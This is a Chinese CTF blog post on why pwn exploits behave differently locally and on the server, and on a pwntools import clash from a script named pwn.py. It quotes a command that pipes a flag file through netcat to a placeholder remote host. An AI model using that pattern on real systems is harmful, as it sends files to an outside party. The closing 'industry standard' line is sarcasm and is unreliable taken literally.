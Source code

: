 ```yaml
---
layout: post
title: " 做pwn题遇到的一千零一个奇怪的场合 "
date: 2019-04-02
excerpt: "为什么一个exp在本机和在服务器上效果不同？为什么一个库在这个目录下import没事在另一个目录不行？"
tags: [pwn]
feature:  https://p0.ssl.qhimg.com/t01a969a8d998ad5508.png
comments: true
---
```


# pwn题-与服务器不同的一万种场合

## 0x0 

↑哇好可爱（×）

libc不同。感觉这个最常见。

## =x=

操作系统不同。

当年做一道32x的题的时候，同样的脚本能pwn服务器不能pwn本机。

服务器是64位的，而我的虚拟机是32位的。

原因是exp里用到了write函数，

``write(fd,*buf,len)``

而``*buf+len``所在地址在64x有在32位没有（还是不可写之类的，whatever）……

## QWQ

输出被重定向

如[0ctf2018的babystack](https://github.com/eternalsakura/ctf_pwn/blob/master/0ctf2018/babystack/pow.py)中

```python
def exec_serv(name, payload):
    p = subprocess.Popen(name, stdin=subprocess.PIPE, stdout=file('/dev/null','w'), stderr=subprocess.STDOUT)
    p.stdin.write(payload)
    p.wait()

if __name__ == '__main__':
    proof_of_work()
    payload = sys.stdin.read(0x100)
    exec_serv('./babystack', payload)
```

就无法直接get shell，需要system(“cat flag|nc xxx.xxx.xxx.xxx xxxx”)这样才能get flag


# 一个库在这个目录下import没事，在另一个目录不行……的场合

有一天……我……开了个文件……名为``pwn.py``

并在第一行……写下了……

```python
from pwn import *
context.log_level = 'debug'
```

这样的代码……

然后……

```
Traceback (most recent call last):
  File "pwn.py", line 1, in <module>
    from pwn import *
  File "/home/rhythm/pwn.py", line 2, in <module>
    context.log_level = 'debug'
NameError: name 'context' is not defined
```

作为一个神志清晰的人……应该能一眼看出……

它以为我要import的pwn是 **我自己写的pwn.py** ……而且不是 **pwntools** ……

但如果……那时候……刚好神志不清……真的很容易绕进去……

甚至做出开n个窗口……

发现……

“咦别的目录下``from pwn imort *``没事……

但是在这个目录下``from pwn imort *``又报错了”

然后越来越迷惑……

看了下pwnlib源码也没发现什么问题……

甚至开始更新系统pip重装pwntools……

即使这个问题你之前帮助别人解决过……

总之

## ！！！请时刻谨记，写一个名字和导入库名字相同的脚本，是业界规范，谢谢，我爱人类



